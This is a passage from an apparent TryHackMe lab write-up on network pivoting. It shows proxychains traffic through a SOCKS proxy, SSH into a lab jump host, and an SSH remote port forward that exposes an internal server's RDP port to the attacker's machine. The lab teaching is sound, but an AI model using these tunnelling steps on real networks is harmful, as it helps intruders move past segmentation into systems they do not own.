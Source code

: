 ```bash
$ proxychains curl http://pxeboot.za.tryhackme.com
```

	- Note that some software like NMAP might not work well with SOCKS in some circumstances, and might show altered results, so your mileage may vary.
	- Note that we are using SSH at the pivoting machine so the traffic flow is bidirectional. Any traffic going through port 9050 from the AttackBox will go through the pivoting machine and then the pivoting machine does the GET request to the webpage "http://pxeboot.za.tryhackme.com" for us. The response by the Target Server will be sent to the AttackBox the same way.


## Application
- **Note**: Since you will be doing SSH connections from the lab network back to your attacker machine using the `tunneluser` for this task, we highly encourage you to use the `AttackBox`.

- Instructions have been given on creating a user that won't allow running commands or transferring files via SSH/SCP, so be sure to follow them as provided.

- It is also recommended to create a `strong password` for `tunneluser` and make sure it is a unique and discardable password.



- To complete this exercise, you will need to connect to `THMJMP2` using the credentials assign to you in `Task 1` from `http://distributor.za.tryhackme.com/creds`.
- If you haven't done so yet, click on the link and get credentials now. Once you have your credentials, connect to **THMJMP2** via SSH:

```bash
$ ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
```

![](/assets/img/Pasted image 20230209183327.png)

### 1. SSH Remote Port Forwarding

##### Step 1: Create a separate user in the `AttackBox` for the tunneling:

```bash
$ useradd tunneluser -m -d /home/tunneluser -s /bin/true
$ passwd tunneluser
```

![](/assets/img/Pasted image 20230209190500.png)

<u>This is why we need a new user</u>:

![](/assets/img/Pasted image 20230209190806.png)

##### Step 2: Create the tunnel from the `THMJMP2` to `AttackBox`:

```powershell
C:\> ssh tunneluser@10.50.61.52 -R 8971:THMIIS.za.tryhackme.com:3389 -N
```

